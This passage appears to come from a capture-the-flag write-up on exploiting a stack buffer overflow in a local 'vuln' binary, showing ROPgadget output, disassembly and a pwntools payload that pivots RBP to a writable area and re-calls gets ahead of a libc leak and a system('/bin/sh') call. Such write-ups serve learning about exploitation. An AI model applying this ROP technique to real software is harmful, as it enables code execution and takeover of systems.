 To overcome this, we must write to that area. Before leaking the print address, we'll prepare a landing area, then leak the address, and then we'll be in business.

To achieve that

>[!Steps]
>Calling gets with buffer area 0x404038
>Call print and leak the address of `print libc addr`
>Calculate the `system`, `/bin/sh` addresses
>We are good to go

First, set RBP. Some useful gadgets are shared below:

```python
root@30ee3317d43a:/host# python3 /tools/ROPgadget/ROPgadget.py --binary vuln --depth 5 --filter 'pop rbp'
Gadgets information
============================================================
0x000000000040115b : add byte ptr [rcx], al ; pop rbp ; ret
0x0000000000401225 : add cl, cl ; ret
0x000000000040115c : add dword ptr [rbp - 0x3d], ebx ; nop ; ret
0x0000000000401017 : add esp, 8 ; ret
0x0000000000401016 : add rsp, 8 ; ret
0x00000000004011cd : leave ; ret
0x000000000040117c : mov ebp, esp ; pop rcx ; ret
0x000000000040117b : mov rbp, rsp ; pop rcx ; ret
0x0000000000401180 : nop ; pop rbp ; ret
0x00000000004010ef : nop ; ret
0x000000000040115d : pop rbp ; ret
0x000000000040117e : pop rcx ; ret
0x000000000040101a : ret
```

At address `0x40115d` the address of helpfull to set. 

```python
0x40115d
0x404038+0x20
```

The addition of 0x20 is the the gets function parameter also came from `RBP-0x20`

```python
   0x0000000000401205 <+54>:    lea    rax,[rbp-0x20]
   0x0000000000401209 <+58>:    mov    rdi,rax
   0x000000000040120c <+61>:    call   0x401183 <gets>
```

After gets called, a significant amount of buffer can land in the writable area. 

Test the payload.

```python
landing_addr = 0x404038
print_addr   = 0x404010
print_call   = 0x401211
pop_rbp_ret  = 0x40115d
gets_call    = 0x401205

payload = flat({
    40:[
        pop_rbp_ret,
        landing_addr+0x20,
        gets_call
    ]
    })

io.sendline(payload)
```
